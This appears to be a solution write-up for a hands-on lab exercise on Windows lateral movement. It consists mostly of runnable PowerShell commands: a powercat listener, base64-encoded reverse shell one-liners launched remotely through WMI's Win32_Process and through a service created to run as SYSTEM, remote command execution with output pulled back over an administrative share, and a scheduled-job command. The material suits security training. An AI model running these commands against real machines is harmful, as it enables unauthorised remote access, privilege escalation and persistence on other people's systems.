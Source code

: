 ## Hands On 7 - Lateral Movement, Reverse Shell

Solution uses the PowerShell reverse shell from PayloadOfAllThings: [Powershell Oneliner Reverse Shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell)

#### Get a reverse shell on WMI server using Win32_Process
Start the listner:

`powercat -l -v -p 4242 -t 1000`

Start the client up
```
$utfbytes  = [System.Text.Encoding]::Unicode.GetBytes((Get-Content '.\oneliner.txt'))
$base64string = [System.Convert]::ToBase64String($utfbytes)
Invoke-WmiMethod -Class win32_process -Name Create -ArgumentList "powershell -e $base64string" -Credential $user3_creds -ComputerName Win7x64
```

#### Get a reverse shell on a WMI server using Win32_Service
Start the listner:

`powercat -l -v -p 4242 -t 1000`

Start the client up
```
$utfbytes  = [System.Text.Encoding]::Unicode.GetBytes((Get-Content '.\oneliner.txt'))
$base64string = [System.Convert]::ToBase64String($utfbytes)
Invoke-WmiMethod -Class Win32_Service -Name Create -ArgumentList $false,"My Reverse Shell",$errorcontrol,$null,$null,"ReverseShell","C:\Windows\System32\cmd.exe /c powershell -e $base64string",$null,$servicetype ,"Manual","NT AUTHORITY\SYSTEM","" -ComputerName Win7x64 -Credential $user3_creds
Get-WmiObject -class Win32_Service -Filter 'Name = "ReverseShell"' -ComputerName Win7x64 -Credential $user3_creds
Get-WmiObject -class Win32_Service -Filter 'Name = "ReverseShell"' -ComputerName Win7x64 -Credential $user3_creds | Invoke-WmiMethod -Name StartService
```

#### Retrieve output of Win32_Process by writing the output to a text file on a target box
```
$command = "cmd.exe /c ipconfig /all > C:\Windows\Temp\output.txt"
$utfbytes  = [System.Text.Encoding]::Unicode.GetBytes($command)
$base64string = [System.Convert]::ToBase64String($utfbytes)
Invoke-WmiMethod -Class win32_process -Name Create -ArgumentList "powershell -e $base64string" -Credential $user3_creds -ComputerName Win7x64
```

Use the following to map a PowerShell drive to retrieve the contents of the commands
```
New-PSDrive -Name "PSDrive" -PSProvider "FileSystem" -Root "\\Win7x64\C$"  -Credential $user3_creds
Get-ChildItem -Path PSDrive:
Get-Content -Path PSDrive:\Windows\temp\output.txt
```

Remove the drive when finished

`Remove-PSDrive -Name PSDrive`

#### Use Win32_ScheduledJob for command execution on any computers
`Invoke-WmiMethod -Class Win32_Scheduledjob -Name Create -ArgumentList "cmd.exe /c dir c:\users > C:\Windows\Temp\output.txt",$null,$null,$false,$false,********152300.000000-300 -ComputerName Win7x64 -Credential $user3_creds`
